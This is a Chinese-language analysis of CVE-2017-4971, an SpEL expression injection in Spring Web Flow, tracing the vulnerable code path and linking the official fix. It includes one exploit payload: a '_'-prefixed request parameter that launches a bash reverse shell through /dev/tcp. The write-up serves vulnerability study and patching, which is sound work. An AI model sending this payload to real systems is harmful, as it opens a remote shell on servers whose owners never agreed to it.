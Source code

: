 # CVE-2017-4971

![image-20210218194441152](CVE-2017-4971分析.assets/image-20210218194441152.png)

在分析这个漏洞之前需要一些`Spring Webflow`的基础知识

[Spring Web Flow 2.0 入门](https://www.ibm.com/developerworks/cn/education/java/j-spring-webflow/index.html)

[java-Spring Webflow：在视图状态之间移动](http://www.cocoachina.com/articles/111129)

![image-20210218194733254](CVE-2017-4971分析.assets/image-20210218194733254.png)

## 环境搭建

![image-20210218202011507](CVE-2017-4971分析.assets/image-20210218202011507.png)

## 漏洞复现

![image-20210218201936295](CVE-2017-4971分析.assets/image-20210218201936295.png)

**exp:**`url编码`

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/ip/port 0>&1")).start()=vulhub
```

## 分析原理

[官方修复地址](https://github.com/spring-projects/spring-webflow/commit/ec3d54d2305e6b6bce12f770fec67fe63008d45b)

![image-20210218202450134](CVE-2017-4971分析.assets/image-20210218202450134.png)

可以看到是一个`AbstractMvcView.java  `类的`addEmptyValueMapping`方法里面进行了修改。我们就下载源代码进行分析。

[源代码下载](https://github.com/spring-projects/spring-webflow)

![image-20210218203221151](CVE-2017-4971分析.assets/image-20210218203221151.png)

这里就是`Expression target = emptyValueExpressionParser.parseExpression(field, parserContext);`

这一句的问题，是表达式的执行。 `SpEL注入执行`

而我们现在看看这个执行，接收的第一次参数是`field`，而这个`field`是`addEmptyValueMapping`函数来的，说明肯定是调用这个函数的时候出问题了。

我们回跟这个函数。

![image-20210218203901093](CVE-2017-4971分析.assets/image-20210218203901093.png)

看到这里有俩个地方都调用了这个函数，我们一个一个的分析，先分析`addModelBindings()`方法

![image-20210218203953533](CVE-2017-4971分析.assets/image-20210218203953533.png)

回跟`addModelBindings()`方法的上一层方法。

![image-20210218204058653](CVE-2017-4971分析.assets/image-20210218204058653.png)

而这里的`bind()`方法里面的`if`条件就包含了我们刚刚说到的调用`addEmptyValueMapping()`方法。然后我们详细的看看这个`bind()`方法

可以看到`addModelBindings`和`addDefaultMappings`方法都使用了`requestParameters`，而`requestParameters`就是获得的全部请求参数

![image-20210218204423476](CVE-2017-4971分析.assets/image-20210218204423476.png)

将我们的`requestParameters`做一些处理然后传递到`addModelBindings`和`addDefaultMappings`方法中，我们先看看`addModelBindings`方法。

![image-20210218204746269](CVE-2017-4971分析.assets/image-20210218204746269.png)

获得全部的`binding`的`Property`

![image-20210218205407984](CVE-2017-4971分析.assets/image-20210218205407984.png)

所以上面代码的意思：如果请求参数的key里面没有配置文件的`Property`，就会进入`else`

![image-20210218205644634](CVE-2017-4971分析.assets/image-20210218205644634.png)

而`fieldMarkerPrefix`是等于`_`,这也是我们exp里面是安`_`开头

![image-20210218205752547](CVE-2017-4971分析.assets/image-20210218205752547.png)

然后就调用`addEmptyValueMapping`函数，执行了命令

![image-20210218210007792](CVE-2017-4971分析.assets/image-20210218210007792.png)

我们在看看另一个函数在调用`addEmptyValueMapping`

![image-20210218210058692](CVE-2017-4971分析.assets/image-20210218210058692.png)

这里是将我们的请求参数去掉`_`，然后将值给`field`。而进入`addEmptyValueMapping(mapper, field, model);`要求是`!parameterNames.contains(field)`
。而这个是显然的，因为我们请求的`parameterNames`里面有`_`而，`field`是没有`_`的。所以肯定为真。

![image-20210218210510086](CVE-2017-4971分析.assets/image-20210218210510086.png)

然后就进入`addEmptyValueMapping(mapper, field, model);`

![image-20210218210826600](CVE-2017-4971分析.assets/image-20210218210826600.png)

所以就成功执行了命令。

**注意上面分析的代码是修复之后的代码。是`Expression target = emptyValueExpressionParser.parseExpression(field, parserContext);`
这个地方进行了修改。漏洞代码是`expressParser.parseExpression(field, parserContext);`**

## 参考

> https://www.anquanke.com/post/id/86244
>
>https://github.com/spring-projects/spring-webflow/commit/ec3d54d2305e6b6bce12f770fec67fe63008d45b#diff-301f5eca16aa30c1c9c789bdc5452ca9b5719fc1ec194739bd255f4b3cb1b6fa
>
>https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-4971